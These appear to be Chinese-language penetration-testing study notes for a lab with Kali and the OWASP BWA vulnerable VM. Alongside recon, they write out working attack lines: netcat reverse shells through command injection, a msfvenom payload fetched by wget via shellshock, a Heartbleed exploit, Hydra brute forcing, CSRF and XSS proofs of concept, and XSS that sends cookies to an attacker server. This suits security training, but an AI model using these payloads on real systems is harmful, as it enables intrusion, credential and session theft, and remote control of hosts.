




kali¶
下载安装¶
下载地址：https://www.kali.org/downloads/.html，选择Kali Linux 64 bit Vbox，跳转到Offensive Security Download Page，选择Kali Linux VirtualBox Images选项卡，选择Kali Linux Vbox 64 Bit Ova - Torrent，下载种子文件。
下载torrent工具：BitComet
在VirtualBox中导入kali-linux-2019.1-vbox-amd64.ova
root默认密码：toor
下载靶机¶
注意
VirtualBox需要下载ova格式的文件。
root默认密码：owaspbwa
配置网络互通¶
工具 - 网络 - 创建，启用DHCP。
bwavm - 设置 - 网络 - Host-Only - vboxnet0
kali设置相同。
进入到kali/bwavm终端执行ifconfig查看网络配置。
提示
若系统默认配置不响应ping，可使用arping -c 4 x.x.x.x
访问靶机¶
在kali上打开浏览器访问bwavm地址：http://192.168.56.4/
渗透过程¶
0x00. DNS解析域名子域名，看有哪些IP，了解服务器组网。¶
漏洞点
允许公共DNS区域传输（未正确配置的DNS服务器）。
- 查询公共DNS注册信息：
whois xxx.com获取组织名称地址联系方式。 dig ns xxx.com获取组织DNS服务器信息。- 利用区域传输攻击，获取DNS服务器解析的所有主机信息和子域名列表：
dig axfr @nsztm1.digi.ninja zonetransfer.me theharvester -b all -d zonetransfer.me获取邮箱主机IP。- 在线查询软件信息：https://toolbar.netcraft.com/site_report
- 查询历史页面：https://archive.org/web/web.php
- google高级搜索：
site:site_to_look_into"target_domain"
参考链接
- openbugbounty.org：Open Bug Bounty是安全研究人员在面向公众的网站报告和公布漏洞(仅跨站点脚本和跨站点请求伪造)的一个独立站点。所以在谷歌中的搜索将返回所有提到的到“zonetransfe”这是openbugbounty.org所做的。
- pastebin.com ：是一种非常普遍的方法，用于让黑客匿名地去过滤和发布攻击期间所获得的信息。
- zone-h.org：Zone-H是一个恶意黑客经常去炫耀他们的成就的网站，主要是对网站的破坏。
0x01. Nmap扫描开放了哪些port，对应端口运行哪些服务，服务版本，OS版本。¶
- 查看主机是否启动
nmap -sn 192.168.56.4, ping scan, disable port scan - 查看端口开启状态
nmap 192.168.56.4
 - 扫描服务版本及操作系统
namp -sV -O 192.168.56.4

0x02. 识别web应用程序防火墙WAF，入侵检测系统(IDS)或入侵防御系统(IPS)¶
- 检测是否存在WAF
nmap -sT -sV -p80,443,8080,8081 --script http-waf-detect 192.168.56.4,wafw00f x.x.x.x - 识别WAF
nmap -sT -sV -p80,443,8080,8081 --script http-waf-fingerprint 192.168.56.4
0x03. 若存在Web服务器，查看https协议版本和使用的加密套件。¶
- 使用nmap查看ssl版本
nmap -sT -p 443 --script ssl-enum-ciphers x.x.x.x

在warnings中查看不安全选项 - 使用sslscan查看 是否存在heartbleed漏洞，弱加密套件，证书信息,
sslscan x.x.x.x[:port]

- testSSL
- 下载
git clone --depth 1 https://github.com/drwetter/testssl.sh.git - 扫描
./testssl.sh x.x.x.x检测弱ssl协议版本和加密套，serverhello携带的证书，已知漏洞
- 下载
0x04. F12查看页面元素是否存在隐藏域。¶
靶机地址：http://x.x.x.x/WackoPicko/ 1
0x05. 尝试修改cookie。¶
- cookie中是否保存重要信息或用户权限标识
- 通过修改sessionid测试横向越权
重要特性
- Httponly：无法通过浏览器脚本访问它，XSS依赖。这意味着cookie只能在服务器修改，但我们仍然可以通过浏览器工具或插件修改它。
- Secure：浏览器只在https请求中传输该cookie。
- Expires：如果把cookie过期时间设为未来某一个时间，cookie将被存储在一个本地文件中，导致浏览器被关闭后cookie仍然保存。攻击者可以从文件中直接获取cookie，可能窃取到其他有效用户的会话。
0x06. 获取robots.txt查找后台入口。¶
靶机地址：http://x.x.x.x/vicnum/ 2
0x07. 爬虫所有链接获取更多URL，进一步了解后台及部署了哪些应用。¶
- dirbuster: 使用字典寻找敏感文件或目录
/usr/share/dirbuster/worldlists，导出报告txt, xml, csv -
ZAP: 使用ZAP代理进行敏感文件或目录扫描。Applications - 03-Web Application Analysis - owasp-zap
- 修改端口：Tools - Options - Local proxies
-
burpsuite拦截修改请求，如上传文件把
content-type: text/html改成image/png，修改User-Agent。 - burpsuite intruder爆破爬取URL
- repeater多次修改请求
- 用户身份在客户端请求参数中携带，如id，篡改。
- 请求参数指定URL路径，可构造任意远程页面如
http://192.168.56.11/dvwa/vulnerabilities/fi/?page=http://192.168.56.10/index.html，使服务器加载外部页面，或目录跨越../../../../../etc/passwd - 上传文件在web目录下，获取上传存储路径，通过burpsuite修改content-type，上传php，获取webshell。
SQL注入¶
- 使用orderby获取到列数，再用unoion查询其他信息如
@@version,currentuser(),informationschema.tables - 通过SQL注入
n=char_length(current_user())，burp intruder爆破数据库用户名长度 currentuser like 'a@%爆破每个字符- 通过sleep时间盲注
- 通过SQLMap检测SQLi，查询表数据，数据库其他用户信息，sqlshell
命令注入¶
检测到存在命令注入时¶
- 提交
ls /bin/nc*查看是否存在netcat - 在攻击者监听
nc -lp 1234 -v - 在命令注入
nc.traditional -e /bin/bash x.x.x.x 1234 &反弹shell
利用metasploit的msfvenom来创建一个可执行程序，反弹shell¶
- 执行
msfvenom -p linux/x86/meterpreter/reverse_tcpLHOST=192.168.56.10 LPORT=4443 -f elf > cute_dolphin.bin，ip为攻击机 - 打开msfconsole创建侦听
1 2 3 4 5
use exploit/multi/handler set payloadlinux/x86/meterpreter/reverse_tcp set lhost 192.168.56.10 set lport 4443 run
- 启动服务器存放bin提供下载，命令注入wget获取bin:
() { :;}; echo "Vulnerable:" $(/bin/sh-c "/usr/bin/wget http://192.168.56.10/cute_dolphin - 执行
() { :;}; echo "Vulnerable:"$(/tmp/cute_dolphin.bin")
linux提权¶
- 检查linux提权工具
unix-privsc-check - 在shell中使用upload命令上传文件
- 使用
sudo -l显示可以sudo的所有命令
利用已知漏洞¶
OpenSSL HeartBleed内存缓冲区溢出，影响TLS1.0 1.1¶
- 使用命令
sslscan x.x.x.x:8443检查协议版本及存在漏洞 - 使用命令
searchsploit heartbleed查找exploit-db安装位置 - 使用工具Exploit-DB: https://www.exploit-db.com/，执行
python /usr/share/exploitdb/platforms/multiple/remote/32764.py 192.168.56.12 -p 8443泄漏内存
shellshock¶
bash允许通过环境变量中的函数执行命令。
前提
在php或cgi脚本中调用了系统命令（shell脚本）
- 对于shell请求
/bWAPP/cgi-bin/shellshock.sh，将请求头中的Referer字段替换为(){:;};echo"Vulnerable:"，响应回显Vulnerable - 注入
(){:;};echo "Vulnerable:" $(/bin/sh-c "/sbin/ifconfig") - 开启监听:
nc -vlp 12345 - 注入webshell:
(){:;};echo "Vulnerable:" $(/bin/sh -c "nc -e/bin/bash 192.168.56.10 12345")
bash将函数存储为环境变量，函数结束后继续执行命令。CGI将请求映射到环境变量。
安全维度¶
一、身份验证¶
- 用户名口令：登录，注册，重置密码等页面枚举用户名比较响应时间，intruder爆破，字典爆破口令。
- 基本身份验证：使用Hydra进行Authorization: basic base64code=爆破：
hydra -Luser_list.txt -P top25_passwords.txt -u -e ns http-get://192.168.56.11/WebGoat。- -u 先迭代用户名，防止被锁定
- -e ns 使用空密码
Tip
每个用户最多使用四次登录尝试：1. 空，2. 与用户名相同，3. 123456
- 摘要身份验证：MD5(用户名，密码，nonce)
- NTLM/Windows身份验证：持久连接交换challenge
- Kerberos身份验证：Windows凭证登录
- Bearer tokens
- 爆破tomcat部署webshell
使用Burp Suite intruder字典攻击¶
- 使用
Burp Suite代理。 - 访问目标网站，找到login的url发送到
Intruder。 - 进入
Positions页签，点击Clear清除占位符。 - 在需要字典攻击的参数值位置点击
Add添加占位符。 - 攻击类型选择
Cluster bomb。 - 进去
Payloads页签，选择Payload set-1，设置为Simple list，点击Load导入用户名；选择2，设置为Simple list，点击Load导入密码。 - 菜单
Intruder，Start attack。
二、会话管理¶
cookie中的会话标识¶
Warning
如果cookie中的sessionID没有httponly，若存在xss，可以发送恶意请求。
- 会话固定：构造恶意链接诱骗用户点击，使用其预设的SESSIONID
- burp sequencer分析sessionid是否随机：获取存在set-cookie的响应，发送到sequencer，分析cookie，解码获取中的sessionid
CSRF¶
POC：创建一个页面，包含form指向攻击请求地址。 → 在javascript里自动提交。 → 诱骗受害者在同一个浏览器中访问该页面。
1 2 3 4 5 6 7 | <form action="http://www.baidu.com" method="POST" id="csrf_form"> <input name="description" value=""> </form> <script> var form = document.getElementById("csrf_form"); form.submit(); </script> |
1 2 3 4 5 6 | <script> function dosubmit() { document.getElementById(form).submit() } </script> <body onload=dosubmit()></body> |
XSS¶
特征：输入<原样显示，查看源码未做编码，可先用<h1>尝试。
POC：
<script>alert('xss')</script><img src=x onerror="javascript:alert('xss')">- 闭合如
<input value="输入的内容">：" onmouserover="javascript:alert('xss')→<input value="输入的内容" onmouseover="javascript:alert('xss')"> - 在href属性中注入链接或者其他事件，使用户在点击的时候触发：
<a href="javascript:alert('xss')">点击我</a>
示例
- 利用XSS获取cookie：启动一个服务器接收请求，利用XSS发送请求
<script>document.write('<img src="http://192.168.56.10:88/'+document.cookie+'">');</script>，获取受害者cookie。
前提
- cookie没有开启httponly
- 启动一个http服务器：
python -m SimpleHTTPServer 88 - 有用户交互
- 利用XSS获取HTML5本地存储
<script>alert(window.localStorage.MessageOfTheDay);</script>或会话存储<script>alert(window.sessionStorage.getItem("Secure.AuthenticationToken"));</script> - 利用XSS诱骗受害者下载运行HTA获取反弹shell
token¶
特征¶
- BASE64：包含大小写字母数字+/，以%3D(==)结尾
- SHA1：40位16进制字符串，每个16进制代表4位，40x4=160位
参考链接